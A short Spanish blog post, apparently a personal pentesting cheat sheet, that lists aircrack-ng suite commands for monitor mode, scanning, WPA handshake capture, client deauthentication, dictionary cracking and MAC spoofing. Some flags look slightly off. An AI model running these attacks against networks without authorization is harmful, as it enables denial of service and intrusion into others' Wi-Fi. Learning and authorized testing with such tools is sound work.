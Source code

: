 ```yaml
---
layout: default
---
```

-------[Inicio/Home](./../index.html)-------[Posts-Guias-Por-Fecha-Publicación](./../posts.html)-------[Posts-Guias-Por-Categorias](./../categorias.html)-------[Links](./../links.html)-------
## Command suite aircrack-ng

BUenas!

la suite de aircrack-ng contiene varios comandos entre ellos podemos poner nuestras interfaces en modo monitor.
Poner nuestras interfaces a escanear. Capturar Handshakes , realizar ataques de denegacion de servicio (desconexiones a clientes) , atacar con un diccionario a un hash capturado.

Esta herramienta esta elaborada para pentesting y no se responsabiliza tanto yo el autor de este post como la propia herramienta del uso que le del terceros. La herramienta es open source y se puede descargar de cualquier repositorio sea el sistema que tengamos de Linux(unix).

* * *

Interfaz Modo monitor

```bash
airmon-ng start wlan0
```

* * *

Modo escaneo

```bash
airodump-ng wlanmon0
```

* * *

Capturar handshake

```bash
airodump-ng -w wpa -c 7 --bssid <BBSID MAC AP> wlanmon0
```

* * *

Desconectar clientes

```bash
aireplay-ng -o 5 -a <BBSID MAC AP> -c <STATION> wlanmon0
```

* * *

Atacar aircrack diccionario

```bash
aircrack-ng -w spanish.dic /home/user/wpa-01.cap
```

* * *

Cambiar mac



```bash
ifconfig wlan0 down

macchanger -m xx:xx:xx:xx:xx:xx wlan0

ifconfig wlan0 up

iwconfig wlan0
```

Salu2

-----------------------------------------------------------------------------

ZipyintheNet¡